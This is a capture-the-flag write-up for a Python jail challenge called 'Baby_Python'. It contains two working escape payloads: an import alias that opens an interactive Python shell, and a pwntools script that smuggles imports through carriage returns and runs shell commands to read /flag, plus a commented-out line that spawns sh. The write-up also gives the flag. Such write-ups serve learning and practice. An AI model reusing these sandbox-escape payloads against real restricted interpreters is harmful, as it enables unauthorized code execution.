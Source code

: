 # Baby_Python
author: tow_nater
## Description
here's a warmup jail for you :) Python version is 3.8.10 and flag is at /flag

Note: this chal is not actually broken, just thought it would be a funny joke

nc baby-python.chal.uiuc.tf 1337
## Solution (s)
I wasn't able to solve this challenge during the ctf, but found it pretty interesting. Apparently, there were a couple of ways to do this:

### Solution 1
The payload ```from code import interact as exit``` gives you a python terminal with which you can run:
```
import os
os.system("cat /flag")
```
<img src ="https://user-images.githubusercontent.com/86171033/128443161-2c92651c-a5f5-419c-9316-9283bf97d29b.png" width=600 alt="image"/>


### Solution 2
credits to k3v1n on the UIUCTF discord
```
#! /usr/bin/env python3
from pwn import *

r = remote('baby-python.chal.uiuc.tf', 1337)

r.sendline(b'import challenge')

r.sendline(b'from builtins import input as bool\rimport challenge as bad\rfrom importlib import reload as exit\rfrom builtins import input')
# r.sendline(b'import os; os.system("sh")')
r.sendline(b'import os; os.system("cat /flag")')
r.sendline(b'')

r.interactive()

```
flag: ```uiuctf{just_kidding_about_the_chal_being_broken_lol_11a7b8}```

